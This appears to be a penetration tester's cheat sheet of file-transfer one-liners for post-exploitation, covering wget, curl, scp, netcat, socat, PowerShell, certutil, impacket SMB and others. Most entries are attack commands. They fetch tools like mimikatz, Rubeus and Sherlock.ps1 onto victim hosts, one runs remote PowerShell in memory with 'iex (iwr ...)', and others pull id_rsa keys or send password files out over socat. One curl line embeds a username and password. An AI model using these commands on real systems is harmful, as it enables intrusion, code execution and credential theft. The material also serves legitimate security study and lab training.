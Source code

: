 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
curl -T '/home/kali/Documents/pg/Hutch/shell.exe' 'http://192.168.136.122/' -u fmcsorley:CrabSharkJellyfish192
```

## SCP

```bash
#upload
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
# download
scp user@10.10.80.41:/home/user/id_rsa .
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```powershell
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
iwr http://192.168.45.5/rubeus.exe -outfile rubeus.exe
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -split -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share . -smb2support

# From victim
\\10.10.10.10\share\mimikatz.exe 

copy \\10.10.10.10\share\mimikatz.exe 
```

## FTP

```
python -m pyftpdlib 21 <ATTACKER IP>
ftp 10.10.10.10
```

## Evil-WinRM

```
upload
download
```
